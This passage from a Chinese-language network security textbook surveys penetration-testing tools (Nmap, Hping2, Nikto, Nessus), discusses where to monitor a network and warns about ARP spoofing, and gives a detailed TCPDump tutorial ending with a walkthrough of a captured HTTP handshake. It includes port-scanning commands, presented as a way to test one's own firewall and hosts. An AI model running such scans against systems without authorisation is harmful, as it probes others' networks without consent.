渗透测试可以是非正式的，也可以是正式的。非正式的渗透测试通常由安全管理员甚至开发人员执行，使用从手动尝试突破应用程序到使用多种工具进行自动攻击等各种手段。正式渗透测试由第三方执行，他们很可能会使用手动和自动攻击的组合来测试系统。渗透测试的类型和频率取决于你的安全策略。

当然，进行测试时，重要的是要测试两种类型：就像普通攻击者一样，以及就像内部人员一样。作为普通攻击者进行测试意味着从外部测试应用程序，就像黑客那样。

cation 或系统，除了系统外部可获取的信息外，没有其他任何知识。换句话说，如果你在测试 Web 应用程序，请查看网页源代码，以了解正在使用何种形式的参数。很多时候，作为普通攻击者进行测试也意味着你必须从本地网络以外的位置进行测试。这在测试防火墙规则集时尤为重要。

本节介绍了一些可用于测试网络和计算机系统的工具。与本章中呈现的其他列表一样，它并非旨在包罗万象或详尽无遗。相反，这里考察的工具提供了一个良好的起点，你可以在此基础上构建关于安全知识和渗透测试概念及设施的理解。

## NMAP

`Nmap`（网络映射器）是一款用于识别网络上开放端口和可用设备的程序。入侵分析人员经常使用 `Nmap` 来确定特定主机上哪些端口是开放并处于监听状态的。在防火墙的背景下，`Nmap` 可以从外部位置用于测试防火墙规则，以确保没有意外开放且可用的端口。

`Nmap` 在许多流行的 Linux 发行版中均可作为软件包获取。如果你的发行版中没有 `Nmap`，可以从 `http://www.insecure.org/nmap/` 下载。

`Nmap` 提供了许多用于探测主机和整个网络的选项。这些选项数量众多，无法在此深入涵盖。在实践中，我发现以下语法对于执行上述端口扫描最为有用，这里用于查找 TCP 端口：

```
nmap -sS -v <host>
```

例如，要扫描主机 `192.168.1.10` 上的开放 TCP 端口，将使用以下语法：

```
nmap -sS -v 192.168.1.10
```

请注意，使用 `-v` 选项可以启用更多的详细信息输出。虽然此选项不是必需的，但建议使用，你甚至可以增加额外的 `-v` 实例以增加详细程度。

`Nmap` 支持多种类型的 TCP 扫描。我选择 SYN 扫描，因为我发现它通常是最适合这种测试的可靠方式。

当 `Nmap` 开始扫描时，它会向目标主机发送初始 ping 或 ICMP Echo Request。有时目标不会响应 ICMP Echo Request。在这些情况下，你可以使用 `-P0` 选项来禁用 `Nmap` 发送的初始 ICMP Echo Request。

如前所述，`Nmap` 提供了多个选项。简单地在命令行键入 `NMAP` 会打印出相对详细的用法说明，其中包含许多这些选项。

## HPING2

`Hping2` 是另一种可用于测试开放端口的网络实用工具，也可用于测试网络应用程序和设备的行为。`Hping2` 允许用户设置网络数据包的各种属性，或者按照有时所谓的“构造”数据包的方式进行处理。当数据包被构造时，可以观察网络应用程序或设备的行为。

`Hping2` 在第 11 章中用于展示使用 `TCpDump` 查看某些攻击时的表现。

## NIKKO

`Nikko` 是一款用于测试 Web 服务器已知漏洞并提供该 Web 服务器信息的程序。与 `Nmap` 不同，`Nikko` 未包含在许多 Linux 发行版中，但有一个显著的例外，即它在 Debian 中可用。`Nikko` 可以从 `http://www.cirt.net/code/nikto.shtml` 下载。

由于 `Nikko` 专门针对 Web 服务器，因此本文对其覆盖范围有限。然而，如果你正在运行 Web 服务器，我强烈推荐 `Nikko` 来测试服务器的多种漏洞。

## NESSUS

`Nessus` 是一款用于通过尝试利用大量已知漏洞进行测试的程序。`Nessus` 通过插件的概念工作，由于有数百个插件可用，`Nessus` 是市场上最好的安全扫描器之一。

使用 `Nessus`，入侵分析人员可以扫描本地和远程主机上的易受攻击的软件，以便修补这些漏洞。`Nessus` 包含在一些 Linux 发行版中，并可以从 `http://www.nessus.org/` 下载。

## 10.6 总结

本章概述了入侵检测工具和一些基本安全原则。从 `TCpDump` 到嗅探器放置，再到文件系统完整性，本章带你环顾入侵检测的世界。

这些入侵检测工具在结合安全措施（如定期更新、增强安全措施的渗透测试等）时效果最佳，以确保系统的安全符合你的预期。

本书下一章将更深入地考察网络安全，重点分析 `TCpDump`，这是管理员工具箱中的关键工具。

本章使用了你在整本书以及前几章中获得的特定知识，展示你可能如何使用一些工具进行日常监控以及进行调查。

本章从网络监控或嗅探的概述开始。本章开头的信息建立在你在本书前面章节中已经看到的内容之上。然后，本章继续考察 `TCPDump`，这是网络安全分析师工具包中的关键工具。最后，本章还考察了两个有用的安全软件包：`Snort` 和 `ARPWatch`。

## 11.1 监听以太网络

掌握了前几章中一些核心协议的基础知识后，你准备好开始监听网络了。当你开始监控网络时具体看到什么，取决于几个因素，其中最重要的因素之一是网络拓扑本身。

现代以太网网络是由端点设备（如带有网卡的计算机）组成的集合，这些设备通过集线器或交换机互连。集线器和交换机之间的区别对网络性能和安全都很重要。在集线器环境中，每个以太网帧都被复制到集线器上的每个端口，因此也是连接到集线器的每个设备。将集线器环境与交换环境进行对比。在交换环境中，交换机将帧发送到特定设备连接的特定端口。换句话说，使用交换机时，流量仅发送到应该接收它的设备。如果入侵者能够在集线器环境中监控网络，入侵者将看到发送给连接到该集线器的所有设备的所有帧。在交换环境中，入侵者只能看到发往该主机的流量或复制到所有端口的广播流量。

大多数管理型交换机允许管理员配置某个端口以接收所有流量。Cisco 将此称为“span”端口，而其他人则称之为“mirror”端口。实际上，通过将所有流量复制到交换机上的一个端口，管理员可以监控该交换机的所有流量，以查找可能的入侵或其他异常。当然，这也可能是危险的。如果攻击者获得了该端口末端设备的控制权，攻击者同样可以监听一切！此外，在高流量环境中，如果你试图监控所有端口，很可能会发生性能下降。因此，选择在哪里监控你的网络非常重要。

如果你没有管理型交换机，或者没有允许你将所有流量复制到一个端口的交换机，你需要找到另一种监听流量的方式。我不建议为了使用集线器而移除交换机。然而，一种方法是将集线器连接到防火墙，然后将你的入侵检测或监控计算机也连接到该集线器，最后将集线器连接到主交换机。通过这种方式，你可以监控内部防火墙流量，而不会（大幅）降低性能，也不会过多损害交换机提供的安全性。

当我写下关于交换机安全性的一句话时，我想起了几种允许攻击者监听交换机上其他流量（即使这些流量并非发往攻击者所在端口）的攻击类型。这些攻击主要是 ARP 欺骗，涉及干扰 ARP 的正常操作。关于 ARP 欺骗的好入门读物可以在在线论文“An Introduction to Arp Spoofing”中找到，地址为 `http://packetworkssecurity.org/papers/protocols/intro_to_arp_spoofing.pdf`。

在网络上选择监控点更像是一门艺术而非科学，并且不可避免地存在争议。有人认为只有网络内部才是需要监控的，因为防火墙会阻止外部流量使其变得不重要。也有其他人坚持认为应该监控外部点，这样你就能看到网络上正在尝试什么。还有像我这样的人，认为应该同时监控内部和外部点。监控内部网络对于希望显而易见的原因很重要。你可以查找异常流量，也可以监控意外状况和性能。然而，我相信监控外部网络同样重要。我在一家互联网服务提供商处磨练了计算机安全技术，那里所有重要的东西本质上都在外部网络。因此，我知道了解外部发生的事情对于防止攻击成功是多么有价值。

你必须做出适合你环境的决策。仅仅为了入侵检测而在防火墙外部署一台计算机可能没有意义。所有安全都是尝试保护资产与保护它们所需的有限资源之间的权衡。

### 11.1.1 三个有价值的工具


用于监控网络流量的工具和软件数量不断增加。这些工具中的一些是免费的（既指价格免费，也指言论自由），而另一些则相当昂贵。我既使用过昂贵的工具，也使用过免费的工具，我有信心说免费的更好。昂贵的工具功能较弱，但界面美观。许多产品的界面提供了良好的“外观和感觉”（尽管其中许多似乎有些不稳定）。总体而言，开源工具在设置和使用上稍显复杂，但它们提供更好的功能，稍加努力就能产生一些提供成本高昂的工具所呈现的**最美观**的图表和其他图片。就我而言，我更愿意使用那些在调查潜在攻击时能够**快速且方便**使用的入侵检测工具。处理繁琐、不直观的图形用户界面只会阻碍入侵检测工作的进行。

本节将介绍一些监控工具，重点讨论书中后面章节涵盖的工具。

## TCPDUMP

入侵检测分析师工具箱中的主要工具应该是 TCPDump。TCPDump 将网络接口置于**混杂模式**，以便捕获到达的每个数据包。当然，这意味着 TCPDump 需要从经历潜在入侵的计算机上运行，或者从接收交换机环境中“镜像”端口的计算机上运行。下一节将更详细地讨论 TCPDump。

## SNORT

Snort 是目前可用的最佳入侵检测系统之一，无论是否免费。Snort 捕获网络流量的方式与 TCPDump 非常相似。然而，Snort 还使用已知攻击特征数据库来提供一定程度的检测能力。TCPDump 更多是一种手动监控工具，而 Snort 则更加自动化，因为分析师无需手动检查每个数据包。您可以在 `http://www.snort.org/` 上获取有关 Snort 的更多信息。

## ARPWATCH

ARPWatch 是用于监控网络上 ARP 流量的工具。其目标是为了让管理员能够发现可能的 ARP 欺骗尝试以及进入网络的未知设备。ARPWatch 可以从 `http://www-nrg.ee.lbl.gov/` 下载。与其他工具一样，ARPWatch 在使用前需要编译。ARPWatch 将在本章后面的“使用 ARPWatch 进行监控”一节中进行详细分析。

### 11.2 TCPDump：简要概述

回顾你在前面章节中阅读的内容。你学习了 IP 寻址、子网划分以及一些核心协议的头部。在本章中，我们将研究 TCPDump 工具，你会近距离接触其中一些协议。掌握了如何在这一层面监控网络的技能后，你可以确信自己能够排查各种各样的问题，而不仅仅是与计算机安全相关的问题。

入侵分析师工具箱中的一项重要工具是 TCPDump。在基本层面上，TCPDump 是实时数据包捕获和分析软件。这意味着 TCPDump 可用于窃听通过网络传输的通信。正如前面提到的，可以窃听的流量量取决于网络拓扑结构。如果运行 TCPDump 的计算机连接到交换式网络，TCPDump 只能看到发往该主机的流量或广播/组播流量。由于 TCPDump（和 libpcap）非常轻量级，确实没有理由不将它们安装到尽可能多的计算机上。然而，在交换式网络中，更好的方法是使用“镜像”端口，交换机本身会将所有网络流量复制到此端口。当然，在基于集线器的网络中，这根本不用担心，因为所有流量都会被复制到集线器上的所有端口。

TCPDump 将网络接口置于混杂模式。在你过于兴奋之前，请考虑到，在繁忙的接口上，这意味着会有大量流量迅速掠过屏幕，这可能会轻微拖慢流量速度。无论如何，大量流量对于人类来说是无法理解的，因此你会希望将输出捕获到文件中，将输出通过管道传递到分页器，或者过滤流量以查找特定内容。通过 TCPDump 表达式进行过滤显然是最佳选择，但这些选项绝非互斥。我通常会使用过滤器和分页器（如 `less`），以防有趣的内容在我的屏幕上掠过得太快。

TCPDump 可以根据你能想到的几乎任何标准来过滤流量。对于入侵分析师来说，最常见的是按协议、主机、端口号或其组合查看流量。在我继续深入之前，如果我不建议阅读或至少参考 TCPDump(1) 手册页（输入 `man tcpdump` 阅读它），那将是我的失职。手册页是一份综合文档，不仅提供语法，还提供使用示例以及一些协议图表。如果你在使用 TCPDump 时遇到困难，且手头没有这本书，也许你应该买两本。或者，也可以使用 TCPDump 手册页作为参考。

#### 11.2.1 获取和安装 TCPDump

TCPDump 可以从 `http://www.tcpdump.org/` 下载。TCPDump 需要 PCap 库 libpcap，因此你在下载 TCPDump 时，也应该下载 libpcap。大多数流行的 Linux 发行版（如 SUSE）也包含 TCPDump 作为可用包。例如，如果你使用的是 Debian，只需输入以下内容：

```
apt-get install tcpdump
```

包维护系统也会安装 TCPDump 及其任何先决条件。对于其他人，你可能可以在发行版的软件仓库中搜索相关软件包，或者直接下载源代码并编译，我推荐这种方法。TCPDump 需要 PCap 库，大多数系统通常不会安装它。无论哪种安装 TCPDump 的方法，你都需要获取 PCap 库，有时也被称为 libpcap。TCPDump 和 PCap 库都可以从 `http://www.tcpdump.org/` 下载。

如果你尝试在未经安装 libpcap 的情况下编译 TCPDump，在运行 TCPDump 的配置脚本时，你会看到类似以下内容的错误：

```
checking for main in -lpcap... no
configure: error: see the INSTALL doc for more info
```

就编译软件而言，安装 libpcap 和 TCPDump 都比较简单。解压每个源代码部分，运行配置脚本，编译并安装。

简而言之：

```
tar -zxvf libpcap-<version>.tar.gz
cd libpcap-<version>
./configure
make
make install
```

对 TCPDump 执行相同操作：

```
tar -zxvf tcpdump-<version>.tar.gz
cd tcpdump-<version>
./configure
make
make install
```

如果你在编译软件时遇到问题，请参考前面章节中更详细描述的编译过程，或者作为更好的解决方案，通过在互联网上排查错误来锻炼你的分析师技能。很有可能其他人已经遇到并解决了你正在处理的问题。

#### 11.2.2 TCPDump 选项

TCPDump 接受广泛范围的命令行选项，这些选项会改变其行为、捕获的数据量以及数据捕获的方式。如此广泛的选项意味着你拥有显著改变程序运行方式的能力。对于 TCPDump，你会发现你在大多数数据捕获活动中频繁使用一组常用选项，而有些选项可能完全不用。

表 11.1 列出了一些更常用的选项。

**表 11.1** TCPDump 的一些常用选项

| **选项** | **描述** |

| :--- | :--- |

| `-i <interface>` | 指定要使用的接口。 |

| `-v` | 以详细模式生成输出。 |

| `-vv` | 以非常详细的模式生成输出。 |

| `-x` | 使 TCPDump 以十六进制格式打印数据包本身。 |

| `-X` | 使 TCPDump 同时也以 ASCII 格式打印输出。 |

| `-n` | 告诉 TCPDump 不要对捕获期间看到的 IP 地址执行 DNS 查找。 |

| `-F <file>` | 从 <file> 中读取表达式。 |

| `-D` | 打印可用接口。 |

| `-s <length>` | 将捕获的每个数据包的长度设置为 <length>。 |

依次检查这些选项揭示了执行基本数据包捕获和分析所必需的步骤。并非所有这些选项对于使用 TCPDump 捕获流量都是必要的（实际上，没有一个选项是必需的）。在命令行中直接输入 tcpdump 命令来开始捕获流量是完全有效的。然而，在实践中，许多选项是获得正确分析流量所需的细节程度所必需的。

`-i <interface>` 选项更改 TCPDump 监听要捕获的数据包的默认接口。默认情况下，TCPDump 会在第一个接口 `eth0` 上监听。然而，对于多宿主机的机器，可能需要使用此选项以确保捕获正确的流量。例如，在防火墙上，`eth0` 接口可能连接到内部网络，而 `eth1` 接口连接到 Internet。你可能有兴趣查看进入外部接口（`eth1`）的流量；因此，你会在 TCPDump 中使用 `-i <interface>` 选项。

详细模式选项 `-v`、`-vv` 和 `-vvv`（未包含在表 11.1 中）使 TCPDump 打印关于每个接收到的数据包的更多（以及更多，再多一点）信息。使用 `-v` 时，这些信息包括诸如 TTL、数据包 ID、长度和选项等重要内容。在进行数据包捕获时，通常需要实验来确定这些选项中哪一个适合你的需求。不同的协议可能没有太多（或根本没有）额外信息可以打印，因此使用这些开关增加详细程度不会有任何好处。


`-x` 选项使 TCPDump 还打印每个数据包的十六进制转储。对于我的眼睛来说，这个选项并没有特别有帮助，因为我读十六进制不太好。然而，使用小写 `-x` 是利用使用大写 `-X` 可获得的数据包 ASCII 转储所必需的。因此，我几乎不使用单独的 `-x`，而是同时使用 `-x` 和 `-X`。虽然仅使用 `-X` 可能会打印数据包的部分内容，但使用两者可能更有帮助。

在最常见的选项中，有时有帮助的一个是 `-s <length>` 选项。使用此选项有助于打印数据包本身的内容，而不是默认的 68 字节。如果你只对数据包头部感兴趣，这个选项可能没什么用。然而，如果你想窥视数据包本身的内容，这个选项将有助于确保数据包捕获不被截断。

随着你使用 TCPDump 越多，变得更实用的选项是 `-F <file>` 选项。此选项告诉 TCPDump 从 `<file>` 中读取过滤器表达式的内容，而不是从命令行读取。对于较长的表达式或经常使用的表达式（甚至是不常使用的），这个选项非常方便。使用 TCPDump 一段时间后，你可能会厌倦每周都输入同样的旧过滤器表达式来捕获相同的数据包。将该表达式存储在文件中，然后在 TCPDump 中从文件读取表达式是节省时间的好方法。

刚开始使用 TCPDump 时，你可能觉得有用的选项是 `-D` 选项。`-D` 选项通知 TCPDump 打印一个接口列表，你可以在其中执行数据包捕获。由于数据包捕获依赖于接口，知道使用哪个接口是你必须选择的最重要的事情。在 Linux 中，选择正确的接口相对容易，因为接口名称通常很简单，如第一张以太网卡的 `eth0`。然而，在 Windows 中，`-D` 重要得多，因为接口名称可能很难记住。

最后一个值得注意的选项是 `-n` 选项。使用 `-n` 告诉 TCPDump 在捕获过程中看到主机时不要执行反向 DNS 查找。执行反向查找

经常会导致数据包捕获变慢，并且自然会增加流量。因此，添加 `-n` 有助于加快捕获速度，同时降低信噪比。当我忘记设置 `-n` 选项时，有时我会问自己：“为什么这台机器在进行 DNS 查询？”随后才意识到，这些查询是我进行数据包捕获活动所致。

## 11.2.3 TCPDump 表达式

现在有趣的部分开始了。默认情况下，TCPDump 会捕获并输出到达该接口的每个数据包。有时，在安静的接口上快速监听一些流量时这很有用。然而，大多数捕获都会使用 TCPDump 中的表达式。TCPDump 表达式是一组用于查看您想通过 TCPDump 观察的网络流量的标准。表达式由一个或多个限定符以及可能的一个原语组成，两者都将在接下来的章节中讨论。表达式可能用于捕获仅源自特定主机或发送至特定主机的流量。表达式及其组合的可能性使您能够精确锁定在评估给定网络状况时需要查看的确切数据包。

表达式更强大的功能之一是能够进行否定。例如，如果你想监听除 80 端口的网络流量（通常是 http 流量）之外的所有流量，你可以让 TCPDump 捕获除在 80 端口传输或接收之外的所有流量。TCPDump 还可以使用其他逻辑术语，例如 AND（与）、OR（或）以及之前提到的否定关键字 NOT（非）。

TCPDump 表达式包含在单引号（' '）内，可以通过将给定表达式的各个部分包含在括号中来分组。这意味着你可以组合多个表达式，以仅捕获感兴趣的流量。对表达式进行分组的关键在于使用逻辑术语 AND、OR 和 NOT。TCPDump 有三种限定符，每种将在接下来的讨论中依次介绍。第一种限定符是类型限定符。

### TCPDUMP 的类型限定符

就像 TCPDump 有三种限定符一样，类型限定符本身包含三种变体：`host`（主机）、`port`（端口）和 `net`（网络）。`host` 限定符用于指定有趣流量的主机或目标。`port` 类型限定符不出所料地用于指定要捕获数据包的端口。`net` 类型用于指定有趣流量的子网。你可以在表达式中使用 `net` 限定符来监听整个地址范围的流量。当然，有时你不想监听整个地址范围。TCPDump 还接受与 `net` 限定符一起使用的 `mask`（掩码）修饰符，以指定子网掩码。你还可以使用 CIDR 表示法来指定掩码位。

在我继续之前，这里有一个 TCPDump 表达式的示例，用于捕获 80 端口的流量：

```
tcpdump 'port 80'
```

由于该表达式仅使用单个标准（80 端口），因此不需要将其包含在括号中。然而，如果目标是捕获源或目标为特定一个或多个主机的 80 端口流量，例如 192.168.1.10 和 192.168.1.11，则需要使用括号，如下例所示：

```
tcpdump 'port 80 and (host 192.168.1.10 or host 192.168.1.11)'
```

括号仅用于逻辑分组。在实践中，使用它们不会带来任何惩罚，老实说，我通常使用它们只是出于习惯。在编写前面简单的 80 端口示例时，我最初包含了括号，只是在思考我做什么之后才回去删除它们。旧习惯很难改掉。说到不必要的术语，示例中的 `host` 术语也不是必需的——稍后会更多说明。

以下是一些使用 `net` 类型限定符来监听流量的示例：

```
tcpdump 'net 192.168.1'
```

以下是使用 CIDR 表示法的相同示例：

```
tcpdump 'net 192.168.1.0/24'
```

最后，以下是使用 `mask` 修饰符的相同示例：

```
tcpdump 'net 192.168.1.0 mask 255.255.255.0'
```

如果你未在 TCPDump 表达式中指定类型限定符（`host`、`net`、`port`），系统将假定是 `host` 类型。因此，当你尝试类似以下内容时收到“解析错误”请不要感到惊讶：

```
tcpdump '80'
```

真的，你可能想让 TCPDump 监听 80 端口的流量：

```
tcpdump 'port 80'
```

### TCPDUMP 的方向限定符

TCPDump 表达式中的另一种限定符是方向限定符。前面的示例将查找双向流动的流量，例如 80 端口的入站或出站流量。例如，这可能意味着发往运行在 192.168.1.10 上的 Web 服务器的流量将被捕获，但离开 192.168.1.10 计算机并发送至另一台 80 端口服务器的流量也会被捕获。你还可以通过使用方向限定符来指定捕获流量的方向。`*src*` 表示源，`*dst*` 表示目标，是 TCPDump 使用的两个方向限定符。将目标术语添加到前面的示例中，生成一个查找发往 192.168.1.10 或 192.168.1.11 的 80 端口流量的表达式：

```
tcpdump 'port 80 and (src 192.168.1.10 or src 192.168.1.11)'
```

方向限定符不仅限于查找特定地址的流量。查找源或目标为特定端口的流量是完全有效的，如下例中查找目标为 25 端口（通常是 SMTP）的流量：

```
tcpdump 'dst port 25'
```

一些协议使用 `inbound`（入站）和 `outbound`（出站）术语来指定方向。有关更多详细信息，请参阅 TCPDump 主页。

### TCPDUMP 的协议限定符

用于 TCPDump 表达式的最后一种限定符是协议限定符。不出所料，协议限定符使您能够选择应使用 TCPDump 捕获哪些协议。可以使用 TCPDump 捕获的协议包括（但不限于）以太网（在 TCPDump 语法中缩写为 `ether`）、TCP、UDP、ICMP、IP、IPv6（在 TCPDump 语法中缩写为 `ip6`）、ARP、反向 ARP（缩写为 `rarp`）等。

### 原语

除了主要的三种限定符（类型、方向和协议）外，TCPDump 表达式中还有被称为原语的内容。原语是有助于指定数据包捕获附加参数的关键字。用于 TCPDump 的原语包括这些：

- 算术运算符

- `broadcast`

- `gateway`

- `greater`

- `less`

算术运算符包括 `+`、`-`、`*`、 `/`、`>`、`<`、`>=`、`<=`、`=`、`!=` 以及一些其他符号。TCPDump 可以使用相当复杂的算术运算符和数据包偏移量来深入查看数据包。如果确有必要，我宁愿将这些领域作为读者练习，让你们自行深入研究。

`broadcast` 原语，当前面加上 `ip` 或 `ether` 时，将分别查找 IP 或以太网广播数据包，尽管 `ether` 是默认的查找类型。例如，查找 `ip broadcast` 的 TCPDump 表达式将搜索 IP 网络上的广播。但是，如果 TCPDump 正在监听的接口卡没有子网掩码，或者使用的是 `any` 接口，这个 `broadcast` 原语将不起作用。

原语 `greater` 和 `less` 用于搜索长度大于等于或小于等于给定长度的数据包。这些原语在功能上等同于使用算术运算符实现相同目的。因此，例如，语法

```
len >= 1500
```

等同于：

```
greater 1500
```

## 11.2.4 超越 TCPDump 基础


你现在应该对 TCPDump 的基本语法有了感觉，包括一些选项、语法和 TCPDump 表达式。即使只是基本掌握 TCPDump 语法所能完成的故障排除和诊断工作，也使其成为管理联网计算机人员不可或缺的工具。然而，有时即使对 TCPDump 的基本了解也不足以成功检查某些问题。为了检查更困难的问题，你可能会发现需要超越 TCPDump 的基础知识。

超越 TCPDump 的基础需要更深入地理解协议本身。了解 TCP 的标志或 ICMP 的类型有助于将关注点缩小到仅涉及感兴趣的数据包。虽然这些信息以及如何在 TCPDump 中使用它们并不是强制性的，但随时能够调用这些信息至少是很有价值的。花点时间熟悉 TCPDump 更复杂的语法。测试数据包过滤表达式以查看其在各种网络条件下的工作情况，除了需要时间外，不会有什么成本。

## 11.3 使用 TCPDump 捕获特定协议

在本节中，我将给出一些示例，展示如何捕获各种形式的网络流量用于监控目的。在这些示例中，你将看到通过 TCPDump 观察到的 DNS 查询的样子，一些 ICMP（ping）示例，以及基于 TCP 和 UDP 的各种协议。在你看到正常流量的样子后，我将展示一些有趣的内容。具体来说，我将展示通过 TCPDump 观察到的某些类型攻击的样子，以便你可能能够快速检测这些进入（或离开）你的网络的行为。

贯穿本节，我将使用几个不同的程序来生成流量供 TCPDump 捕获。我的主要 TCP 相关捕获工具将是 `telnet`。我将使用 `telnet` 生成流量，并在现实世界中模拟真实协议（或接近它）的行为。DNS 查询的生成将使用 `dig` 命令和 `host` 命令完成。将使用 `ping` 和 `traceroute` 命令。最后，`hping2` 命令将用于生成 ICMP 流量以及其他有趣的数据包，尤其是在攻击部分。除了 `hping2` 之外，这些程序都安装在大多数主要的 Linux 发行版上。

### 11.3.1 在现实世界中使用 TCPDump

在本章中到目前为止，你已经看到了许多使用 TCPDump 捕获各种类型流量的示例。这些示例旨在展示 TCPDump 在表达式和其他选项方面的用法。现在是时候给你一些使用 TCPDump 捕获特定类型流量的实际示例了。你可能使用这些示例的情况会有所不同，但我会尝试就你为何可能使用特定示例提供一些线索，在力所能及的范围内。在实际环境中尝试捕获流量时，了解过滤器表达式的构建方式可能会很有帮助。我早些时候曾简略提及过这个话题。然而，在给出配方式的解决方案之前，我将向你展示如何构建一个过滤器，其具体目标是捕获一次 HTTP 通信。

### 构建用于捕获 HTTP 通信的过滤器

HTTP 是 Web 的语言。通常，HTTP 运行在 TCP 之上，而 TCP 又运行在 IP 之上。我选择 HTTP 作为第一个真实世界的捕获案例，仅仅是因为人们通常都熟悉浏览网页的过程，即使他们可能并不熟悉底层协议。

请记住，IP 是一种无连接协议，而 TCP 是一种面向连接的协议。TCP 使用三次握手来开始一次通信。HTTP 利用了 TCP 面向连接的特性，事实上，它对底层协议（回想一下 OSI 模型）一无所知。就 HTTP 而言，它将数据交给下一层之后就结束了。因此，当启动一次 HTTP 通信时，你通过 TCPDump 首先看到的应该是 TCP 的三次握手，随后是特定于协议的数据。

在大多数情况下，HTTP 流量流向目的端口 80。

> **注意**
>
> 可以通过检查文件 `/etc/services` 来查找各种服务通常运行的端口号。鉴于此，端口号分配的真正来源是 IANA。你可以在网址 `http://www.iana.org/assignments/port-numbers` 查看最新且完整的官方端口号分配列表。然而，请记住，没有什么能阻止有人在官方端口号以外的端口上运行服务！

由于 HTTP 通常位于 80 端口，因此最好从一个只查找 80 端口流量的基本 TCPDump 表达式开始，例如：

```
tcpdump 'port 80'
```

运行该命令，然后通过访问网页生成一些流量，会得到以下结果：

```
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 96 bytes

17:15:38.934337 IP client.braingia.org.4485 > test.example.com.www:\
S 523004834:523004834(0) win 5840\
<mss 1460,sackOK,timestamp 249916003 0,nop,wscale 0>

17:15:38.984650 IP test.example.com.www > client.braingia.org.4485: S \
                2810959978:2810959978(0) ack 523004835 win 5792 \
                <mss 1460,sackOK,timestamp 1320060704 249916003,nop,wscale 0>
17:15:38.984684 IP client.braingia.org.4485 > test.example.com.www: \
                . ack 1 win 5840 <nop,nop,timestamp 249916008 1320060704>
17:15:38.985326 IP client.braingia.org.4485 > test.example.com.www: \
                P 1:462(461) ack 1 win 5840 <nop,nop,timestamp 249916008 1320060704>
17:15:39.038067 IP test.example.com.www > client.braingia.org.4485: . \
                ack 462 win 6432 <nop,nop,timestamp 1320060710 249916008>
17:15:39.065141 IP test.example.com.www > client.braingia.org.4485: . \
                1:1449(1448) ack 462 win 6432 <nop,nop,timestamp 1320060712 249916008>
17:15:39.065183 IP client.braingia.org.4485 > test.example.com.www: . \
                ack 1449 win 8688 <nop,nop,timestamp 249916016 1320060712>
```


请注意 TCPDump 输出的前两行。在这种情况下，第一行告诉我，我确实应该启用更详细的输出，以便看到数据包中有趣的内容，而第二行给出了 TCPDump 正在监听的接口的状态，以及捕获的大小。

下一行是捕获的第一行，巧合的是，它也是 TCP 三次握手中发送的第一个数据包（SYN）。你会在该行首先注意到的是一个时间戳，接着是协议（IP）。然后是发起该数据包的主机名（*client.braingia.org*）以及流量的源端口（4485）。源计算机和源端口的这个组合被称为**源**（Source）。大于号 (>) 显示了流量相对于该流量目标（Destination）的方向，如该行所示，目标为 *test.example.com.www*。**www** 表示流量在目标计算机上指向的目标端口。

TCPDump 输出行中下一个值得关注的部分是**标志位**（Flags）部分，在本例中由大写的 S 表示。回顾第 4 章“基于数据包过滤防火墙的初步概念”，TCP 头部可以包含各种标志位，以指示数据包的某些状态。如果你猜出 **S** 表示设置了 **SYN** 标志位的数据包，那你可能已经赢得了非常有价值的奖品。标志位部分之后是数据包的序列号空间，指示该数据包将覆盖的序列号。在示例中，序列号空间（523004834:523004834(0)）长度为零。该行中的下一项是**窗口**大小，如输出中的 **win 5840** 所示。最后，包含在方括号内的是数据包中包含的选项。虽然这些选项在某些时候可能很有趣，但在现实世界中，你很少需要特别关心它们。


你现在已经通过 `TCPDump` 看到了 TCP 三次握手中的一个单一数据包。别担心，情况确实会变得更有意思，真的会。捕获中的下一行包含来自 `test.example.com` 的响应数据包。注意，时间戳增加了，协议仍然是 `IP`。但是，现在源计算机是端口 80 上的 `test.example.com`，目标是 `client.braingia.org.4485`。还要注意，`SYN` 标志位已设置，证据是源 > 目标区域后面的 `S`。尽管现在序列号空间有所不同，为 `2810959978:2810959978`（`0`）。这是因为 `test.example.com` 作为过程的一部分选择了自己的序列号。第一个真正引起我们兴趣的区别，因为之前没见过，是 `ack 523004835`。这是 TCP 三次握手的第二部分，即通常所说的 `SYN-ACK` 数据包。在这个数据包中，原来的目标计算机正在回应或确认在指定端口上建立 TCP 连接的请求。注意，`ack` 后面的数字等于原始序列号（`523004834`）加一。这就是协议本身在起作用。

捕获中的第三个数据包，在此再次展示以供参考，是 `TCP` 连接建立过程中的最后一个数据包：

```
17:15:38.984684 IP client.braingia.org.4485 > test.example.com.www: . \
	ack 1 win 5840 <nop,nop,timestamp 249916008 1320060704>
```

在这个数据包中，原始源确认了连接的建立。注意，通常显示标志位的地方只有一个点（.）。这通常意味着没有设置标志位；然而，像 `ACK` 这样的一些标志位会在输出行的其他位置显示。源端设置了 `ACK` 标志位，并为该连接设置了一个初始序列号。此时，可以说 TCP 连接已建立。这看起来工作量很大，但我不是说这一节是关于 `HTTP` 的吗？没错。接下来捕获输出中的数据包表明 `HTTP` 连接正在进行：

```
17:15:38.985326 IP client.braingia.org.4485 > test.example.com.www: \
	P 1:462(461) ack 1 win 5840 <nop,nop,timestamp 249916008 1320060704>

17:15:39.038067 IP test.example.com.www > client.braingia.org.4485: . ack \
	462 win 6432 <nop,nop,timestamp 1320060710 249916008>

17:15:39.065141 IP test.example.com.www > client.braingia.org.4485: . \
	1:1449(1448) ack 462 win 6432 <nop,nop,timestamp 1320060712 249916008>

17:15:39.065183 IP client.braingia.org.4485 > test.example.com.www: . \
	ack 1449 win 8688 <nop,nop,timestamp 249916016 1320060712>
```

源端发送了本次通信数据的开头。注意，`PUSH` 标志位在初始数据包中被设置，并且序列号在递增。双方确认序列号，数据正在传输。但在我运行的 `TCPDump` 命令（`tcpdump` `port 80`）中，没有看到什么更多内容。因此，我将改进该命令，以包含我通常用来窥探数据包内部的选项。至于这些选项具体是做什么的，留给读者参考本章前面提到的解释自行体会。以下是 `TCPDump` 改进后的命令：

```
tcpdump -vv -x -X -s 1500 'port 80'
```

当此命令正在运行时，我随后生成了更多的 Web 流量。以下是结果中的两个半数据包，从三次握手刚刚结束处开始捕获：

```
18:18:51.986230 IP (tos 0x0, ttl 64, id 10907, offset 0, flags [DF], \
            length: 513) client.braingia.org.4564 > test.example.com.www: \
            P [tcp sum ok] 1:462(461) ack 1 win 5840 <nop,nop,timestamp \
            250295308 1320440053>
```


```
0x0000: 0090 2741 78f0 00e0 1833 2ee8 0800 4500 ...Ax...3...E.
0x0010: 0201 2a9b 4000 4006 044b c0a8 010a 455d ...@.0..K...E]
